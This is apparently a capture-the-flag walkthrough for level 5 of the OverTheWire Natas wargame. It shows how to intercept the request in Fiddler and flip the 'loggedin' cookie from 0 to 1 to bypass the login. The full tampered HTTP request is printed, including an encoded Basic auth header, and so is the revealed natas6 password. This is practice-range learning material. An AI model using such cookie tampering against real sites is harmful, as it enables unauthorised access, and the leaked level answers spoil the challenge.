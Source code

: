 # Level 5 to Level 6

Open the natas5 page, then open fidler and put it in breakpoint mode.
Refresh the page and go to fiddler and change the value in the cookie from 0 to 1

```
GET http://natas5.natas.labs.overthewire.org/ HTTP/1.1
Host: natas5.natas.labs.overthewire.org
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.88 Safari/537.36 Vivaldi/1.7.735.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
Cookie: loggedin=1
```

Then the following message appears:

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```